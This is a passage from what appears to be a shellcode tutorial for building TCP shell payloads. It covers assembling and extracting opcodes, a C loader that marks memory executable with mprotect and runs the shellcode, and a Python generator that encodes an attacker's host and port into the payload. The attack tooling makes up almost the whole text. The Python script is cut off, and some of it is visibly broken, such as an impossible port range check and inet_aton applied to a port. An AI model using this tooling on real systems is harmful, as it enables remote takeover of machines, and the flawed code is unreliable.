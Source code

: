 ```Bash
nasm -f elf64 tcp_shellcode.asm -o tcp_shellcode.o
ld tcp_shellcode.o -o tcp_shellcode
objdump -d tcp_shellcode | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//' | sed 's/ /\\x/g' | paste -d '' -s
```

tcp_shellcode.c
```c
#include <stdio.h>
#include <string.h>
#include <sys/mman.h>

unsigned char code[] = \
"Shellcode";

int main(int argc, char **argv) {
    // 设置Shellcode所在内存区域的权限
    if (mprotect((void*)((unsigned long)code & ~0xFFF), 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC) == -1) {
        perror("mprotect");
        return -1;
    }

    int (*func)();             // function pointer
    func = (int (*)()) code;   // func points to our shellcode
    (int)(*func)();            // execute a function code[]
    return 1;
}
```

python脚本生成
```python
import socket
import argparse
import sys

BLUE = '\033[94m'
GREEN = '\033[92m'
YELLOW = '\033[93m'
RED = '\033[91m'
ENDC = '\033[0m'

def my_super_shellcode(host, port):
    print (BLUE + "let's go to create your super shellcode..." + ENDC)
    if int(port) < 1 and int(port) > 65535:
        print (RED + "port number must be in 1-65535" + ENDC)
        sys.exit()
    if int(port) >= 1 and int(port) < 1024:
        print (YELLOW + "you must be a root" + ENDC)
    if len(host.split(".")) != 4:
        print (RED + "invalid host address :(" + ENDC)
        sys.exit()

    h = socket.inet_aton(host).hex()
    hl = [h[i:i+2] for i in range(0, len(h), 2)]
    if "00" in hl:
        print (YELLOW + "host address will cause null bytes to be in shellcode :(" + ENDC)
    h1, h2, h3, h4 = hl

    shellcode_host = "\\x" + h1 + "\\x" + h2 + "\\x" + h3 + "\\x" + h4
    print (YELLOW + "hex host address: x" + h1 + "x" + h2 + "x" + h3 + "x" + h4 + ENDC)

    p = socket.inet_aton(port).hex()[4:]
    pl = [p[i:i+2] for i in range(0, len(p), 2)]
```